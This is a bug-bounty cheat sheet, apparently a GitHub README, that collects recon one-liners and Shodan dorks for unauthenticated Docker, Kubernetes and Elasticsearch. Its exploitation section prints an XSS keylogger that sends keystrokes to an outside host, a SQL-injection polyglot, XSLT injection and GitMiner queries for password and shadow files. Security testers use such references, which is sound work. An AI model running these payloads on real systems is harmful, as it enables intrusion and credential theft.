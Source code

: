 <center><b>CHEAT SHEET</b></center>

<hr>

**PortSwigger official XSS cheet sheet**

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

<details>
  <summary>Table of Contents</summary>

- > Event handlers
   	- > No user interaction
    - > User interaction required
- > Consuming tags
- > File upload attacks
- > Restricted characters
- > Frameworks
- > Protocols
- > Other useful attributes
- > Special tags
- > Encoding
- > Obfuscation
- > Client side template injection
   	- > VueJS reflected
   	- > AngularJS sandbox escapes reflected
   	- > AngularJS sandbox escapes DOM
   	- > AngularJS CSP bypasses
- > Scriptless attacks
- > Polyglots
- > WAF bypass global objects
- > Content types
- > Response content types
- > Impossible labs
- > Prototype pollution
- > Classic vectors (XSS crypt)
</details>
<hr>

<hr>

**Cheet Sheet By [sysbraykr](https://id.linkedin.com/company/sysbraykr)**

https://www.linkedin.com/pulse/burp-suite-cheatsheet-bug-hunting-sysbraykr-fdxwc
<details>
  <summary>Burp Suite Extensions for Bug Hunting</summary>

>**Active Scan++**

Enhances Burp's native scanner by adding more active scan rules, particularly for security misconfigurations and vulnerabilities that are often overlooked.
How to Use:Download from BApp Store.Right-click on a request and select "Do Active Scan++".View results in the Scanner tab.
>**Retire.js**

Automatically identifies outdated JavaScript libraries in web applications.
How to Use:Install from BApp Store.Use the "Scanner" tab or "Logger" tab to detect vulnerable JS libraries.Integrates into passive scanning.
>**Param Miner**

Automatically mines hidden HTTP parameters which can lead to vulnerable endpoints or features.
How to Use:Right-click a request and choose "Guess hidden parameters."Monitors the parameters in the HTTP history and suggests any hidden ones.
>**Logger++**

Enhanced logging for HTTP requests and responses, ideal for analyzing large traffic in real-time.
How to Use:Install from BApp Store.Activate in the Logger++ tab.Use filters to track specific types of traffic for investigation.
>**Collaborator Everywhere**

Automatically injects Burp Collaborator payloads into all parts of requests to find out-of-band vulnerabilities such as SSRF, DNS rebinding, etc.
How to Use:Download from BApp Store.Enable the extension in the Extensions tab.Burp will automatically inject Collaborator payloads into requests, and you can track results in the Collaborator tab.
>**Turbo Intruder**
 
Fast and flexible brute-forcing tool for targeting specific endpoints and parameters.
How to Use:Install from the BApp Store.Right-click a request and choose "Send to Turbo Intruder".Use custom Python scripts for advanced brute-force strategies.

<details>
  <summary>OneLiner</summary>

**fuff**
```bash
ffuf -u http://target.com/FUZZ -w /path/to/wordlist.txt -x http://127.0.0.1:8080        
```
```bash
subfinder -d target.com | while read sub; do curl -x http://127.0.0.1:8080 "http://$sub"; done
```
```bash
echo target.com | waybackurls | while read url; do curl -x http://127.0.0.1:8080 "$url"; done
```
```bash
cat urls.txt | qsreplace '"><script>alert(1)</script>' | while read url; do curl -x http://127.0.0.1:8080 "$url"; done
```
```bash
cat urls.txt | gf xss | while read url; do curl -x http://127.0.0.1:8080 "$url"; done
```
```python
import requests 
# Burp Suite API URL (assuming it's running on localhost:8080) 
burp_api_url = "http://127.0.0.1:8080/burp/send-to-intruder" 
# Example URL to test 
url = "http://target.com/vulnerable_endpoint" 
# Send the URL to Burp's Intruder tool via the API 
response = requests.post(burp_api_url, json={"url": url}) print(f"Sent {url} to Burp Suite Intruder: {response.status_code}")        
```
</details>

</details>
<hr>

<hr>

**Cheet Sheet By [m0chan](https://m0chan.github.io)**

https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html

<details>
   <summary>OneLiner</summary>

**Pull Root Subdomains from Final.txt**
```bash
cat final | rev | cut -d . -f 1-3 | rev | sort -u | tee root.subdomainss
```
```bash
cat 20170417-fdns.json.gz | pigz -dc | grep ".target.org" | jq`
```
**subdomain-enum from various sources**
```bash
# https://github.com/yamakira/assets-from-spf
python assets_from_spf.py --help
```
```bash
# https://github.com/gwen001/github-search/blob/master/github-subdomains.py   
python3 $Tools/github-subdomains.py -d paypal.com -t
```
**Reverse DNS Lookups on List of IP’s**
```bash
prips 173.0.84.0/24 | hakrevdns 

173.0.84.110	he.paypal.com.
173.0.84.109	twofasapi.paypal.com.
173.0.84.114	www-carrier.paypal.com.
173.0.84.77	twofasapi.paypal.com.
173.0.84.102	pointofsale.paypal.com.
173.0.84.104	slc-a-origin-pointofsale.paypal.com.
173.0.84.111	smsapi.paypal.com.
173.0.84.203	m.paypal.com.
173.0.84.105	prm.paypal.com.
173.0.84.113	mpltapi.paypal.com.
173.0.84.8	ipnpb.paypal.com.
173.0.84.2	active-www.paypal.com.
173.0.84.4	securepayments.paypal.com.
```
**Certificate Transparency Logs**
```bash
python3 $BugBounty crt.sh domain.com
```
**Subdomain Brute Force**
```bash
cat domains.txt | dnsgen - | massdns -r /path/to/resolvers.txt -t A -o J --flush 2>/dev/null
```
**Find HTTP/HTTPS Servers with nMap and Filtering**
```bash
sudo nmap -sS -p 80,443 -iL List.txt -oA m0chan.xml
```
```python
import xmltree
def removeHostname():
   for host in root.iter('host'):
        for elem in host.iter():
            if 'name' in elem.attrib and elem.attrib['name'] == 'ISP_redir_site':
                root.remove(host)
tree.write('output.xml')
```
**Pass HTTProbe Results to EyeWitness**
```bash
cp http.servers $Tools
$Tools/EyeWitness/eyewitness.py --web -f http.servers
```
**Pass All Subdomains too S3 Scanner**
```bash
python $Tools/S3Scanner/s3scanner.py -l domains.resolved -o buckets.txt
-d # flag will dump all open buckets locally
# If you find open buckets you can run the useful bash look to enumerate content
for i in $(cat buckets.txt); do aws s3 ls s3://$i; done;
# This will require basic auth key/secret which you can get for free from AWS
```
**ASNLookup**
```bash
python asnlookup.py -o <Organization>
```
**Find Organistations ASN’s**
```bash
amass intel -org paypal
1449, PAYPAL-CORP - PayPal
17012, PAYPAL - PayPal
26444, PAYDIANT - PayPal
59065, PAYPALCN PayPal Network Information Services (Shanghai) Co.
206753, PAYPAL-
```
**Find IPv4 Address Space from ASN**
```bash
https://bgp.he.net/ASNNumberHere#_prefixes
https://bgp.he.net/AS17012#_prefixes
```
**Parse CIDR from ASN Lookup too AMass Enum**
```bash
amass enum -d paypal.com -cidr 64.4.240.0/21
```
```bash
# https://github.com/ghostlulzhacks/crawler/tree/master

python3 $Tools/crawler/crawler.py -d https://paypal.com -l 2
```
**Commoncrawl One Liner**
```bash
curl -sL http://index.commoncrawl.org | grep 'href="/CC'  |  awk -F'"' '{print $2}' | xargs -n1 -I{} curl -sL http://index.commoncrawl.org{}-index?url=http://yahoo.com* |  awk -F'"url":\ "' '{print $2}' | cut -d'"' -f1 | sort -u | tee domain.txt
```
**Common Crawl Data**
```bash
# https://github.com/ghostlulzhacks/commoncrawl
python3 $Tools/commoncrawl/cc.py -d paypal.com
```
**Get All Subdomain HTTP Headers & Responses**
```bash
#!/bin/bash
mkdir headers
mkdir responsebody
CURRENT_PATH=$(pwd)
for x in $(cat $1)
do
        NAME=$(echo $x | awk -F/ '{print $3}')
        curl -X GET -H "X-Forwarded-For: evil.com" $x -I > "$CURRENT_PATH/headers/$NAME"
        curl -s -X GET -H "X-Forwarded-For: evil.com" -L $x > "$CURRENT_PATH/responsebody/$NAME"
done
```
**Finding Hidden Endpoints from Scraped JS Files**
```bash
#!/bin/bash
#looping through the scriptsresponse directory
mkdir endpoints
CUR_DIR=$(pwd)
for domain in $(ls scriptsresponse)
do
        #looping through files in each domain
        mkdir endpoints/$domain
        for file in $(ls scriptsresponse/$domain)
        do
                ruby ~/relative-url-extractor/extract.rb scriptsresponse/$domain/$file >> endpoints/$domain/$file 
        done
done
```
**PORT Scan**
```bash
cat hosts.txt | aquatone -ports 80,443,3000,3001
```
**Tech**
```
https://github.com/vincd/wappylyzer
```
```bash
# Awesome script to detect if your target is protected behind an XSS before you started launching payloads.
waf00f $(cat targets.txt) --findall
```
**Github Dorking**
```bash
# https://github.com/techgaun/github-dorks/blob/master/github-dorks.txt
```
**GitMiner**
```bash
$:> python3 gitminer-v2.0.py -q 'filename:wp-config extension:php FTP_HOST in:file ' -m wordpress -c pAAAhPOma9jEsXyLWZ-16RTTsGI8wDawbNs4 -o result.txt

$:> python3 gitminer-v2.0.py --query 'extension:php "root" in:file AND "gov.br" in:file' -m senhas -c pAAAhPOma9jEsXyLWZ-16RTTsGI8wDawbNs4

$:> python3 gitminer-v2.0.py --query 'filename:shadow path:etc' -m root -c pAAAhPOma9jEsXyLWZ-16RTTsGI8wDawbNs4

$:> python3 gitminer-v2.0.py --query 'filename:configuration extension:php "public password" in:file' -m joomla -c pAAAhPOma9jEsXyLWZ-16RTTsGI8wDawbNs4

Full List of Dorks Here
# https://github.com/UnkL4b/GitMiner
```
**Finding Subdomains That Resolve to Internal IP**
```bash
cat domains.txt | while read domain; do if host -t A "$domain" | awk '{print $NF}' | grep -E '^(192\.168\.|172\.1[6789]\.|172\.2[0-9]\.|172\.3[01]\.|10\.)' &>/dev/null; then echo $domain; fi; done
```

# Exploitation
**Unauthenticated Elastic Search**
```bash
# ES is a document-oriented database designed to store, retrieve, and manage document-oriented or semi-structured data"
# Elastic Search has a HTTP Server running on Port 9200 that can be used to query the database and sometimes it supports unauthenticated access.
# We can find these servers by scanning for Port 9200 or the Shodan Dork below.
port:"9200" elastic
```
**Unauthenticated Docker API**
```bash
# Similar to Elastic Search, Docker has some servies that can be exposed that may be an easy win. Mainly when you install docker on system it will pose an API on your localhost on Port 2375. As its on localhost by default you cant interact however in certain instances this is changed and it is available.
Shodan Dorks come in Handy here
port:"2375" docker
product:docker
# If you find a endpoint you can verifiy that its vulnerable by making a GET request too `/version`
# From here you can connect with the CLI version of Docker
docker -H ip:port ps
```
**Unauthenticated Kubernetes API**
```bash
product:"kubernetes"
port:"10250"

wscat -c “https://<DOMAIN>:<PORT>/<Location Header Value>” –no-check
```
**Unauthenticated odoo Manager**
```bash
http.status:200 http.component:odoo port:8069

# After finding instances go to /web/database/manager most of the time there is either no password or it's "admin"
# Or 
# simply port scan for 8069
```
**Unauthenticated Jenkins Instance**
```bash
# check if this header is allowed with anonymous user
X-You-Are-Authenticated-As: anonymous
```
**SSTI**
```bash
tplmap.py --os-shell -u 'http://www.target.com/page?name=John'

tplmap.py -u 'http://www.target.com/page?name=John'
```
**XSS**
```bash
# Easy JavaScript Keylogger with IMG Tags. Useful for XSS with Login Forms present.
<img src=x onerror='document.onkeypress=function(e){fetch("http://bugcrowd.com/?k="+String.fromCharCode(e.which))},this.remove();'>
```
**SQLi**
```bash
# MySqli
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```
**XSLT Injection**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
	<body>
		<xsl:text>xsl:vendor = </xsl:text><xsl:value-of select="system-property('xsl:vendor')"/><br/>
		<xsl:text>xsl:version = </xsl:text><xsl:value-of select="system-property('xsl:version')"/><br/>
	</body>
</html>
```
**Injecting in PHP**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
	<body>
		<xsl:value-of name="bugbounty" select="php:function('phpinfo')"/>
	</body>
</html>
```
</details>

<hr>

<hr>

**Cheat Sheet By [bughunter-handbook](https://gowthams.gitbook.io/bughunter-handbook/checklists)**

<details>
<summary><b>Cheet Sheet Links</b></summary>

https://github.com/hahwul/WebHackersWeapons
https://medium.com/@cc1h2e1/bug-bounty-check-list-by-c1-2beb7ae3c116
https://github.com/KathanP19/HowToHunt
https://github.com/Voorivex/pentest-guide
https://github.com/heilla/SecurityTesting
Bugbounty cheatsheet - Mohammed Adam - Link
https://github.com/Fawadkhanfk/Check-List-
</details>

<hr>

<hr>

**[My Cheet Sheet](/MY_CHEET_SHEET.md)**
<hr>